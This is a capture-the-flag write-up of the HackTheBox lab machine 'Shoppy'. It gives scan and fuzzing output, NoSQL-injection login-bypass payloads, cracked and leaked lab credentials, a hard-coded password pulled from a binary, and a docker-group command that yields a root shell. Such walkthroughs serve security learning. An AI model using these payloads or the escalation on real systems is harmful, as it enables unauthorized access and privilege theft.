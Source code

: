 Hello and welcome back to another write up. This one will be for box Shoppy from Hackthebox. 

We will start with nmap scan. 

```
# cat nmap                                                                                                                                                                                                                           
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-26 19:16 EST
Nmap scan report for 10.10.11.180 (10.10.11.180)
Host is up (0.057s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
```

We see ports 22 80 and 9093 opened and hostname.


Now let's add shoppy.htb to our hosts file and visit the page:

```
echo "10.10.11.180 shoppy.htb" >> /etc/hosts
```

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Shoppy/images/IMG1.png?raw=true)

There's nothing interesting on the page. Time to fuzz web directories for this I used ffuf:

```
# ffuf -u http://shoppy.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 77ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 77ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 77ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 114ms]
login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 129ms]
assets                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 64ms]
Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 100ms]
Login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 118ms]
fonts                   [Status: 301, Size: 177, Words: 7, Lines: 11, Duration: 75ms]
```

Trying to access anything returns `Cannot GET`. With little usage of google we now know it is node.js application.

Now we visit login found with ffuf. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Shoppy/images/IMG2.png?raw=true)

I'll try to use sql injection to bypass the login page. Searching for which database nodejs uses the most I found out
that it is nosql most often mongodb. To look for paylaods I'll grab some from here: https://book.hacktricks.xyz/pentesting-web/nosql-injection.
These look promising:

```
#in URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```

But these don't lead anywhere. After trying other I stumbled upon this site: https://nullsweep.com/nosql-injection-cheatsheet/.

And this payload finally works:

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Shoppy/images/IMG3.png?raw=true)

And we get to some admin panel. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Shoppy/images/IMG4.png?raw=true)

And we have ability to search for users and it gives us they're password. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Shoppy/images/IMG5.png?raw=true)

Using the same payload as before but without the comment we get json with two users jaeger and admin. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Shoppy/images/IMG6.png?raw=true) 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Shoppy/images/IMG7.png?raw=true)

The hashes returned look as basic md5 hash. Using crackstation we get password for user josh:remembermethisway

I'll tried to use it to login with ssh but no luck. Remembering port 9093 is some log file which isn't useful either.
Now trying to enumerate subdomains with ffuf again. 

```
```

It found subdomain mattermost. Visiting that gives us mattermost login page. Login with credentials found previously works. 
It's first time I see mattermost but it looks simirarly to rocket.chat which is app for chatting. 

Looking through chats we see one with jaeger where are ssh credentials found:

```
Hey @josh,

For the deploy machine, you can create an account with these creds :
username: jaeger
password: Sh0ppyBest@pp!
```

And they work and we get user flag.

```
jaeger@shoppy:~$ cat user.txt 
d298962e84019********************
```

Looking for ways to escalater our privileges I start with `sudo -l`

```
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager

```

The password-manager is 64 bit executable file:

```
jaeger@shoppy:~$ file /home/deploy/password-manager
/home/deploy/password-manager: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=400b2ed9d2b4121f9991060f343348080d2905d1, for GNU/Linux 3.2.0, not stripped
```

Using this file looks like this:

```
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: pass
Access denied! This incident will be reported !
```

Let's try to find the password with strings. The basic version doesn't work but with different encoding it returns this:

```
jaeger@shoppy:/home/deploy$ strings -e b /home/deploy/password-manager 
Sample
```

And we have creds! 

```
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

Logging with ssh and using command id we see we are in group docker:

```
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

This can be used for privilege escalation. Looking at trusty gtfobins gives us this(https://gtfobins.github.io/gtfobins/docker/):

```
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cd root
# ls
root.txt
# cat root.txt
0de991d085a7c94da107b*****************
```

This ends the box. Thanks for reading this write up u can message me on twitter https://twitter.com/Vojtech1337 and until next time!
